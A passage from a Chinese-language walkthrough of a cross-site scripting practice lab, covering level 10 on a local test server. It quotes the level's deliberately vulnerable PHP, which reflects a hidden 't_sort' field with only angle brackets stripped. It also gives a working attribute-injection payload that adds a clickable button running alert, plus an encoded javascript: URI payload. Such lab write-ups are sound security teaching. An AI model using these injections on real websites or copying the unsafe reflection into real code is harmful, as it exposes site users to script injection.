 `java&#x73;cript:alert('http://www.baidu.com')`

## level10

http://192.168.31.193:8080/level10.php?keyword=well%20done!

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

测试过滤了什么

`<script " 'Oonn>`

没有显示处理内容，但是发现**三个隐藏标签**

```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
```

可能这些参数处理了内容

测试这三个参数

`?t_link=<script " 'Oonn>`没有内容

`?t_history=<script " 'Oonn>`没有内容

`?t_sort=<script " 'Oonn>`有内容

```html
<input name="t_sort"  value="script " 'Oonn" type="hidden">
```

前后括号被过滤了。

将payload设置成可以点击可以弹窗的**按钮**。

`?t_sort=click"type="button" onclick="alert(/xss/)`

## level11

http://192.168.31.193:8080/level11.php?keyword=good%20job!
